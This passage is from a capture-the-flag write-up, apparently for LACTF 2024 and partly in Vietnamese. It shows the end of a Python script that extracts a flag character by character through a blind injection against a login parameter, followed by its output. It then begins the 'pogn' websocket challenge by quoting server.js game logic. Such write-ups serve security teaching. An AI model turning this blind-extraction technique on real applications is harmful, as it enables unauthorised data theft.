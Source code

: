 ```py
            payload = f"username={username}"
            response = requests.post(url, headers=headers, data=payload)
            
            if "We found a penguin!!!!!" in response.text:
                flag += char
                print(f"Found character: {char}, Flag: {flag}")
                break

print(f"Final flag: {flag}")
```

Result:
```
Found character: _, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_
Found character: d, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_d
Found character: b, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_db
Found character: s, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_dbs
Found character: _, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_
Found character: 0, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0
Found character: w, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w
Found character: 0, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0
Found character: _, Flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0_
Final flag: ctf_90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0_
```

flag: `lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

# web/pogn - 188 solves/ 333 points
## Description
```
Pogn in mong.

Link: pogn.chall.lac.tf
```

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/lactf2024/pogn.zip)

## Solution
Ta có thể ứng dụng web có tương tác với websocket 

![image](https://hackmd.io/_uploads/H1vERux2p.png)

Để ý đoạn code để có được flag trong `server.js`
```js
const isNumArray = (v) => Array.isArray(v) && v.every(x => typeof x === 'number');

  let prev = Date.now();
  const interval = setInterval(() => {
    try {
      const dt = (Date.now() - prev) / 100;
      prev = Date.now();

      // move server's paddle to be same y as the ball
      me[1] = ball[1];

      // give ball some movement if it stagnates
      if (Math.abs(ballV[0]) < 0.5) {
        ballV[0] = Math.random() * 2;
      }

      // collision with user's paddle
      if (norm(sub(op, ball)) < collisionDist) {
        ballV = add(opV, mul(normalize(sub(ball, op)), 1 / norm(ballV)));
```